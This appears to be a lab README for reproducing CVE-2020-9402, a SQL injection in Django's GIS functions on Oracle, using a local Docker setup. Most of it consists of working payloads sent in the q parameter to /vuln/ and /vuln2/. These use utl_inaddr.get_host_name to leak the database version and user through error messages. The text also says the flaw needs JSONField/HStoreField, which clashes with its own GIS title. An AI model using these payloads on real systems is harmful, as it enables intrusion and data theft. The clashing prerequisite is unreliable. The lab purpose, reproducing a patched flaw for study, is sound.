


# Django GIS functions and aggregates on Oracle  SQL Injection Vulnerability (CVE-2020-9402)

[中文版本(Chinese version)](README.zh-cn.md)

Django released a security update on March 4, 2020, which fixes a SQL injection vulnerability in the GIS functions and aggregates.

Reference link:

- https://www.djangoproject.com/weblog/2020/mar/04/security-releases/

The vulnerability requires the developer to use JSONField/HStoreField; moreover, the field name of the queryset can be controlled. Django's built-in application Django-Admin is affected, which gives us an easy way to reproduce the vulnerability.

## Start Vulnerability Application

Compile and start a vulnerable Django 3.0.3 by executing the following command:

```
Docker-compose build
Docker-compose up -d
```

After the environment is started, you can see the home page of Django at `http://your-ip:8000`.

## Vulnerability Reproduce

First, assess the website `http://your-ip:8000/vuln/`

Then add `20) = 1 OR (select utl_inaddr.get_host_name((SELECT version FROM v$instance)) from dual) is null  OR (1+1` to the GET para,eter, where q is the quertset:

http://your-ip:8000/vuln/?q=20)%20%3D%201%20OR%20(select%20utl_inaddr.get_host_name((SELECT%20version%20FROM%20v%24instance))%20from%20dual)%20is%20null%20%20OR%20(1%2B1
You can see that the bracket has been injected successfully, and the SQL statement reports an error:



Or you can assess the other website `http://your-ip:8000/vuln2/`, and add `0.05))) FROM "VULN_COLLECTION2"  where  (select utl_inaddr.get_host_name((SELECT user FROM DUAL)) from dual) is not null  --` to the GET para,eter, where q is the quertset:

http://your-ip:8000/vuln2/?q=0.05)))%20FROM%20%22VULN_COLLECTION2%22%20%20where%20%20(select%20utl_inaddr.get_host_name((SELECT%20user%20FROM%20DUAL))%20from%20dual)%20is%20not%20null%20%20--

You can also see that the SQL statement reports an error:


